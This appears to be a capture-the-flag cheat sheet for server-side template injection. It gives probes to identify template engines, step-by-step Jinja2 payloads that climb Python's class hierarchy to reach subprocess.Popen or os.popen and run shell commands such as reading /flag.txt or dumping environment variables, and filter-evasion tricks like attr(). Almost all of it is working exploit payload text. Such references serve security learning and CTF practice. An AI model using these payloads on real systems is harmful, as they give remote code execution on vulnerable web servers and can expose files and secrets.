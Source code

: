 # Step 1: Detect the template engine
`{{7*7}}`                    // Jinja2
`${7*7}`                     // Velocity
`<%= 7 * 7 %>`               // ERB
`#{7*7}`                     // Jade / Pug
`*{7*7}`                     // Thymeleaf

# Step 2: Basic Jinja2 RCE Payload
`{{ ''.__class__.__mro__[1].__subclasses__() }}`
This will dump a list of all subclasses — look for something like <class 'subprocess.Popen'>, <class 'os._wrap_close'>, etc.

# Step 3: Find the os or subprocess class index
`{{ ''.__class__.__mro__[1].__subclasses__()[400] }}`
Check for the Popen subprocess by iterating through 400, 401, etc.

# Step 4: Execute Shell Command to Read Flag
`{{ ''.__class__.__mro__[1].__subclasses__()[<index>]('cat /flag.txt', shell=True, stdout=-1).communicate()[0].decode() }}`  //prints the content of flag.txt
`{{ ''.__class__.__mro__[1].__subclasses__()[X]('ls', shell=True, stdout=-1).communicate()[0].decode() }}`     //ls is executed in the web server


# Alternative via os.popen (if subprocess doesn't work)
`{{ ''.__class__.__mro__[1].__subclasses__()[<index>].__init__.__globals__['os'].popen('cat /flag.txt').read() }}`
`{{ ''.__class__.__mro__[1].__subclasses__()[Y].__init__.__globals__['os'].popen('ls').read() }}` 

# Common Commands to Try:
`ls` / → to list root
`ls /app`, `ls /home`, `ls /var/www/html` → common flag locations
`cat /flag.txt` → direct flag access
`env` → might contain the flag in env vars

more info on: https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html

# Filter checking:
1. Testing for dot (`.`)
`{{7.__class__}}`  // Returns int class if dot is not filtered.

2.  Test for Underscore (`_`)
`{{''.__class__}}` // Should return <class 'str'>. If it echoes as {{''class}}, then __ or _ is filtered or stripped.

3. Test for Brackets (`[]`)
`{{['a','b'][0]}}` // Should return a if brackets are allowed.

4. Test for quotes
`{{'a'}}`
`{{"a"}}` // Check if quotes are blocked, stripped, or allowed.

5. Test for `attr()` Filter (used to evade `.`)
`{{''|attr('__class__')}}`  // If dot is blocked, this may succeed as a bypass.

